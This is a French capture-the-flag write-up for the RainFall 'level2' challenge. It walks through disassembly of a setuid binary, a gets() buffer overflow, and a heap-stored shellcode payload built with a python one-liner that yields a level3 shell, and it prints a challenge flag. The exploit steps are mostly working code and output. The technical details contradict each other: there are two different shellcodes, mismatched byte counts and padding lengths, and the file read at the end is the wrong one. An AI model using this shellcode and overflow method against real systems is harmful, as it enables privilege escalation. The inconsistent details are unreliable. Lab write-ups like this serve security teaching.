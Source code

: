 ## `Level2`

## Introduction

Nous avons un exécutable `level2` avec les droits suivants :

```bash
level2@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
```

Lorsque nous l'exécutons, il semble doubler l'entrée standard comme un effet miroir.

```bash
level2@RainFall:~$ ./level2 
ls
ls
```

Nous allons analyser et décompiler l'exécutable pour comprendre son comportement et identifier une éventuelle vulnérabilité.

## Analyse et Décompilation

### Fonction `main`

Après décompilation, nous observons que la fonction `main` appelle la fonction `p` :

```assembly
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave  
   0x0804854b <+12>:	ret    
End of assembler dump.
```

### Fonction `p`

La fonction `p` contient une vulnérabilité due à l'utilisation de `gets`, ce qui permet un débordement de tampon. Voici le désassemblage de la fonction `p` :

```assembly
(gdb) b p
Breakpoint 2 at 0x80484da
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.
```

### Vérification d'adresse

Il y a une vérification sur les adresses allant de `0xb0000000` à `0xbfffffff`, empêchant ainsi l'utilisation de la pile pour stocker le shellcode. 

## Utilisation du tas (heap)

Nous pouvons utiliser le tas (heap) pour stocker notre shellcode. La fonction `strdup` utilise `malloc`, qui alloue la mémoire dans le tas. Nous voyons que `malloc` retourne toujours l'adresse `0x804a008` :

```bash
level2@RainFall:~$ ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                              = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5)                   = 0xbffff70c
puts("")                                                        = 1
strdup("")                                                      = 0x0804a008
+++ exited (status 8) +++
```

Nous pouvons essayer de copier un shellcode dans le tas et utiliser l'adresse allouée par `malloc` comme adresse de retour.

### Shellcode

Nous utiliserons le shellcode suivant de 30 octets :

```python
\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05
```

## Construction du payload

Notre shellcode fait 21 octets de long. Nous devons remplir avec des données arbitraires jusqu'à 80 octets, puis les 4 derniers octets pour l'adresse de retour.

### Payload final

Le buffer d'attaque final sera structuré comme suit :

- Shellcode : 21 octets
- Remplissage de données arbitraires : 59 octets
- Adresse de retour : 4 octets

```bash
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 50 + "\x08\xa0\x04\x08"' > /tmp/exploit
```

### Exécution de l'exploit

```bash
level2@RainFall:~$ cat /tmp/exploit - | ./level2
```

## Accès au Shell

Un shell est accessible ensuite :

```bash
level2@RainFall:~$ pwd
/home/user/level2
level2@RainFall:~$ id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
level2@RainFall:~$ whoami
level3
level2@RainFall:~$ cat /home/user/level2/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## Conclusion

Nous avons réussi à exploiter la vulnérabilité de débordement de tampon dans `level2` en utilisant le tas (heap) pour stocker notre shellcode et en écrasant l

'adresse de retour pour pointer vers cette région. Cela nous a permis d'exécuter le shellcode et d'obtenir un shell avec les privilèges de `level3`, nous permettant de lire le flag pour le niveau suivant.

Level2 passé avec succès !

